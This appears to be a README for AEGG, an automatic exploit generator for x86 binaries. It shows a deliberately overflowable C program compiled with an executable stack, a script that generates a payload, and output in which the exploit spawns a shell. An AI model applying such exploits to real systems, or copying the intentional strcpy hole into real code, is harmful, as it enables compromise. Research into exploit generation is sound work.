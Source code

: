 AEGG
----

AEGG is my simple automatic exploit generation tool. Now only support x86 binary.

Usage
-----

1. vi `vul.c`:
    ```
    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>

    char buf[100];

    int sample_func() {
        char name[10] = {0};
        read(0, buf, 307);
        strcpy(name, buf);
        printf("input: %s\n", name);
    }

    int main(void)
    {
        printf("Running...\n");
        sample_func();
        printf("Done.\n");
    }
    ```
2. complie `vul`:
    ```
    gcc vul2.c -o vul2 -m32 -g -z execstack
    ```
3. vi `my_aegg.py`:
    ```
    from aegg import AEGG

    binary = './vul'
    gg = AEGG(binary)

    # generating payload!
    gg.hack()

    print repr(gg.payloads[0].content)
    gg.save()
    ```


Result
------

```
$ python my_aegg.py
...
INFO    | 2016-06-18 00:10:11,717 | aegg.aegg | Start hacking ...
INFO    | 2016-06-17 23:44:43,872 | pwnlib.elf | Stack is executable!
[+] Started program './vul'
INFO    | 2016-06-17 23:44:46,974 | pwnlib.tubes.process | Started program './vul'
[*] Stopped program './vul'
INFO    | 2016-06-17 23:44:47,976 | pwnlib.tubes.process | Stopped program './vul'
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Generated!
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Completed.
$
$ (cat ./vul.exp; cat) | ./vul
Running...
input: jhh///sh/bin��1�j
                           �̀ÿ @@   @
id
uid=0(root) gid=0(root) groups=0(root)
```


Dependences
-----------

- angr
- pwntools


TODO
----

- [x] shellcode (ret2stack)
- [x] ROP (ret2libc)
- [ ] ROPgadget
- [ ] fmtstr exploit

- [ ] AEGG: inputs in exploit_gen instead of paths (for fuzzing)
- [ ] ret2stack: try every buffer
- [ ] ret2stack: nop-sled


Reference
---------

[angr-doc/examples/insomnihack_aeg](https://github.com/angr/angr-doc/blob/master/examples/insomnihack_aeg/)

[(State of) The Art of War: Offensive Techniques in Binary Analysis](https://www.cs.ucsb.edu/~vigna/publications/2016_SP_angrSoK.pdf)

[AEG: Automatic Exploit Generation](http://repository.cmu.edu/cgi/viewcontent.cgi?article=1239&context=ece)


